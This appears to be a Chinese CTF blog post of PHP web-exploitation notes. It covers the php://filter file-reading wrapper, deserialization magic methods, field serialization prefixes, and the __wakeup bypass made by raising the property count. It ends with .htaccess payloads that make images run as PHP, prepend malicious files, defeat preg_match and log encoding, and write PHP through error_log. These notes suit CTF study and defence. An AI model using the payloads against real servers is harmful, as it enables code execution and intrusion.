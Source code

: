 ```yaml
---
title: PHP积累
date: 2020-03-18 17:35:21
tags:
    - php
categories:
    - web
keywords: 
    - php积累
description: 
    - CTF php相关题目的一些积累
toc: true
thumbnail: https://live.ieki.xyz/usr/uploads/2020/02/ctf-daily.png
banner: https://live.ieki.xyz/usr/uploads/2020/02/ctf-daily.png
---
```


## php 三种写法

```
<? echo ("这是一个 PHP 语言的嵌入范例\n"); ?>
<?php echo("这是第二个 PHP 语言的嵌入范例\n"); ?>
<script language="php"> 
echo ("这是类似 JavaScript 及 VBScript 语法
的 PHP 语言嵌入范例");
</script>
<% echo ("这是类似 ASP 嵌入语法的 PHP 范例"); %>
```

php://filter简单理解：

php://filter 是php中独有的一个协议，可以作为一个中间流来处理其他流，可以进行任意文件的读取；根据名字，filter，可以很容易想到这个协议可以用来过滤一些东西；

使用不同的参数可以达到不同的目的和效果：

| 名称                      | 描述                                                         | 备注 |
| ------------------------- | ------------------------------------------------------------ | ---- |
| resource=<要过滤的数据流> | 指定了你要筛选过滤的数据流                                   | 必选 |
| read=<读链的筛选列表>     | 可以设定一个或多个过滤器名称，以管道符"\|"分割               | 可选 |
| write=<写链的筛选列表>    | 可以设定一个或多个过滤器名称，以管道符"\|“分割               | 可选 |
| <；两个链的筛选列表>      | 任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。 |      |

## 反序列化魔术方法

```php
__construct()//当一个对象创建时被调用
__destruct() //当一个对象销毁时被调用
__toString() //当一个对象被当作一个字符串使用
__sleep()//在对象在被序列化之前运行
__wakeup()//将在反序列化之后立即被调用(通过序列化对象元素个数不符来绕过)
__get()//获得一个类的成员变量时调用
__set()//设置一个类的成员变量时调用
__invoke()//调用函数的方式调用一个对象时的回应方法
__call()//当调用一个对象中的不能用的方法的时候就会执行这个函数
```

## public、protected与private在序列化时的区别

protected 声明的字段为保护字段，在所声明的类和该类的子类中可见，但在该类的对象实例中不可见。因此保护字段的字段名在序列化时，字段名前面会加上\0*\0的前缀。这里的 \0 表示 ASCII 码为 0 的字符(不可见字符)，而不是 \0 组合。这也许解释了，为什么如果直接在网址上，传递\0*\0username会报错，因为实际上并不是\0，只是用它来代替ASCII值为0的字符。必须用python传值才可以。

```php
<?php
class Name{
    protected $username = 'nonono';
    protected $password = 'yesyes';
    public function __construct($username,$password){
    	$this->username = $username;
        $this->password = $password;
    }
    public function __wakeup(){
    	$this->username = "guests";
    }
    public function fun(){
    	echo $this->username;echo "<br>";echo $this->password;
    }
}
$a = serialize(new Name("admin",100));
echo $a;
?>
```

```
O:4:"Name":2:{s:11:"\0*\0username";s:5:"admin";s:11:"\0*\0password";i:100;}
```

private 声明的字段为私有字段，只在所声明的类中可见，在该类的子类和该类的对象实例中均不可见。因此私有字段的字段名在序列化时，类名和字段名前面都会加上\0的前缀。字符串长度也包括所加前缀的长度。其中 \0 字符也是计算长度的。

可以不看：
这里 表示的是声明该私有字段的类的类名，而不是被序列化的对象的类名。因为声明该私有字段的类不一定是被序列化的对象的类，而有可能是它的祖先类。字段名被作为字符串序列化时，字符串值中包括根据其可见性所加的前缀。

```php
<?php
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';
    public function __construct($username,$password){
    	$this->username = $username;
        $this->password = $password;
    }
    public function __wakeup(){
    	$this->username = "guests";
    }
    public function fun(){
    	echo $this->username;echo "<br>";echo $this->password;
    }
}
$a = serialize(new Name("admin",100));
echo $a;
?>
O:4:"Name":2:{s:14:"\0Name\0username";s:5:"admin";s:14:"\0Name\0password";i:100;}
```

## 3.``__wakeup()``方法绕过

作用：
与``__sleep()``函数相反，``__sleep()``函数，是在序序列化时被自动调用。``__wakeup()``函数，在反序列化时，被自动调用。
绕过：
当反序列化字符串，表示属性个数的值大于真实属性个数时，会跳过``__wakeup`` 函数的执行。
上面的代码，序列化后的结果为

要求：PHP5 < 5.6.25 PHP7 < 7.0.10

```
O:4:"Name":2:{s:14:"\0Name\0username";s:5:"admin";s:14:"\0Name\0password";i:100;}
```

其中name后面的2，代表类中有2个属性，但如果我们把2改成3，就会绕过__wakeup()函数。

```
O:4:"Name":3:{s:14:"\0Name\0username";s:5:"admin";s:14:"\0Name\0password";i:100;}
```

## ``.htaccess``文件利用

- 正确解析绕过
  
  ``.htaccess``中出现的无法正常解析的条目时无法生效
  - ``\``换行绕过脏字符或绕WAF
  - 利用XMP图片解析头(``#``刚好是注释符)
    
    ```
    #define width 1
    #define height 1
    ```
  - 利用wbmp文件解析头
    
    ```
    \x00\x00\x8a\x39\x8a\x39
    ```
- 增加使用php解析的文件后缀(.jpg)
  
    ```
    AddType application/x-httpd-php .jpg
    ```
- 增加使用php解析的文件
  
    ```
    <FilesMatch "<filename>">
    SetHandler application/x-httpd-php
    </FilesMatch>
    ```
- 

- **利用php_value注入php配置**

    - 在所有php前后注入恶意php文件
      
        ```
        php_value auto_prepend_file "<FileDir>"
        php_value auto_append_file "<FileDir>"
        ```

    - 利用prce参数绕过preg_match
      
        ```
        php_value pcre.backtrack_limit 0
        php_value pcre.jit 0 
        ```

        任意匹配均返回``FALSE``
        
        > https://www.php.net/manual/zh/pcre.configuration.php
    
    - 利用UTF-7编码绕过日志html编码
      
       ```
        php_value zend.multibyte 1
        php_value zend.script_encoding "UTF-7"
       ```
    - 利用inclue_path包含恶意文件

      ```
        php_value include_path "/tmp"
      ```
    - 利用``error log``写本地文件 (html编码)

        ```
        php_value error_log /tmp/fl3g.php
        php_value error_reporting 32767
        ```